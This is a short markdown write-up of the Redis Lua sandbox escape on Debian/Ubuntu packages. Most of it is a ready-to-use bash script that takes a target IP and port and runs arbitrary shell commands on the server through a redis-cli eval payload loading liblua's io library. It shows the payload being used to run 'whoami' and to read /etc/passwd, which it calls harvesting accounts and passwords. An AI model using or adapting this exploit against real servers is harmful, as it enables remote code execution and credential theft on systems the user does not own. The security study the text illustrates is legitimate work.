


# Attack Details of a Cloud Case

## Background 

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

## Story

When a redis server is connected to a network, an attacker exploits to server with redis-cli package in attacker environment and when liblua package in the redis server. Attacker uses root command "cat /etc/passwd" to gain accounts and its passwords.

### Exploiting
Attacker exploits the server with this shell script to call liblua package to execute commands with root privilege. While loop is used to skip steps for calling liblua package.

```#!/bin/bash
echo "Input redis IP:"
read IP
echo "Input redis PORT:"
read PORT

while :
do
        echo "Input commnad:"
        echo "Press [CTRL+C] to stop..."
        echo -n  ">>"
        read commands
        echo ""
        redis-cli -h $IP -p $PORT eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'"$commands"'", "r"); local res = f:read("*a"); f:close(); return res' 0
        echo ""
done
```
When attacker type "whoami" and "cat /etc/passwd" in shell script:



When server admin type "whoami" and  "cat /etc/passwd": in redis server:



There is no difference, so the attack is working well.
